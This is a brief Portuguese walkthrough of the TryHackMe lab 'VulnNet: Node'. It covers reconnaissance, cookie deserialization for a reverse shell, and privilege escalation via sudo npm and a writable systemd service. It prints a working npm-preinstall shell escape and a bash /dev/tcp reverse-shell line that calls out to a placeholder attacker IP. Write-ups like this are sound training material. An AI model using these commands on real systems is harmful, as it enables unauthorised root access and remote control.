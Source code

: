 https://tryhackme.com/room/vulnnetnode

## Recon e exploração

### NMAP

    PORT     STATE SERVICE VERSION
    8080/tcp open  http    Node.js Express framework

### Insecure Deserialization

O site tem um cookie de sessão em base64 onde o atributo "username" da para injetar um reverse shell

## Privesc

### www -> serv-manage

O usuario "www" tem permissão de rodar __/usr/bin/npm__ como usuario "serv-manage" sem a necessidade de inserir senha. Com isso basta rodar:

```sh
TF=$(mktemp -d)
echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
cd $TF
chmod 777 .
sudo -u serv-manage /usr/bin/npm run preinstall
```

### serv-manage -> root

Rodando "sudo -l" temos:

    (root) NOPASSWD: /bin/systemctl start vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl stop vulnnet-auto.timer
    (root) NOPASSWD: /bin/systemctl daemon-reload

o "vulnnet-auto.timer" roda um arquivo chamado __vulnnet-job.service__ que possui permissão de escrita, alterando esse arquivo para acessar o root, ficou assim:

```sh
[Unit]
Description=Logs system statistics to the systemd journal
Wants=vulnnet-auto.timer

[Service]
# Gather system statistics
Type=forking
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/<IP>/9999 0>&1'

[Install]
WantedBy=multi-user.target
```

Depois bastou executar:

```sh
sudo -u root /bin/systemctl start vulnnet-auto.timer
```

GG
